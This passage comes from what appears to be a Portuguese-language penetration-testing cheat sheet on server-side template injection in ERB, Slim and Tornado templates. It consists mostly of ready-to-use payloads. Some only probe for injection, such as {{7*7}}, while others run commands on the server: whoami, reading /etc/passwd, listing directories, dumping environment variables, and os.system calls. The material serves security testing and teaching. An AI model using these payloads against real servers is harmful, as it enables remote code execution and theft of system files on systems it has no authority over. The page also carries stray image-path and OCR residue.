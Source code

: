 * [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

### ERB (Ruby)

* `{{7*7}} = {{7*7}}`
* `${7*7} = ${7*7}`
* `<%= 7*7 %> = 49`
* `<%= foobar %> = Erro`
```python
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```
**Mais informações**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Slim (Ruby)

* `{ 7 * 7 }`
```
{ %x|env| }
```
**Mais informações**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Python

Confira a seguinte página para aprender truques sobre **execução de comandos arbitrários contornando sandboxes** em python:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

### Tornado (Python)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{foobar}} = Erro`
* `{{7*'7'}} = 7777777`
```python
{% raw %}
{% import foobar %} = Error
{% import os %}

{% import os %}
{% endraw %}





{{os.system('whoami')}}
```